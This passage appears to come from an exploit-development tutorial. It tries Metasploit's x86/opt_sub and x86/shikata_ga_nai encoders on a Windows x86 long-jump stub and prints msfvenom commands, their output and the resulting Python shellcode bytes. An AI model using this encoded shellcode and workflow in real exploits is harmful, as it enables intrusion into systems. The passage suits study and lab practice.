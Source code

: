 	3. Try [`x86/opt_sub`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/opt_sub) encoder on the long jump `jmp_l.bin`. This encodes the payload as a series of subtraction instructions and will write the encoded value to the ESP. 

		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub -o /dev/null
		```

		* This results in the following output, we cannot use this as we do not have the required amount of space! 

		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub -o /dev/null
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/opt_sub
		x86/opt_sub succeeded with size 61 (iteration=0)
		x86/opt_sub chosen with final size 61
		Payload size: 61 bytes
		Saved as: /dev/null
		```
	3. Try [`x86/shikata_ga_nai`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/shikata_ga_nai) encoder on the long jump `jmp_l.bin`. This is a complicated encoding scheme that generates the payload with a polymorphic XOR additive feedback encoder. 

		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -o /dev/null
		```
		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -o /dev/null
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
		x86/shikata_ga_nai succeeded with size 32 (iteration=0)
		x86/shikata_ga_nai chosen with final size 32
		Payload size: 32 bytes
		Saved as: /dev/null
		```
		
		* This results show above show us we can use this in the exploit, we could use it by modifying the command to output the shellcode in the format expected by python as shown below!
		
		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -f python -v SHELL -b '\x00x\0a\x0d'
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
		x86/shikata_ga_nai succeeded with size 32 (iteration=0)
		x86/shikata_ga_nai chosen with final size 32
		Payload size: 32 bytes
		Final size of python file: 180 bytes
		SHELL =  b""
		SHELL += b"\xbe\x55\xf3\x3a\xe6\xda\xdd\xd9\x74\x24\xf4\x5f"
		SHELL += b"\x29\xc9\xb1\x02\x31\x77\x13\x03\x77\x13\x83\xc7"
		SHELL += b"\x51\x11\xcf\x0f\x1a\x27\xcf\x2f"
		```
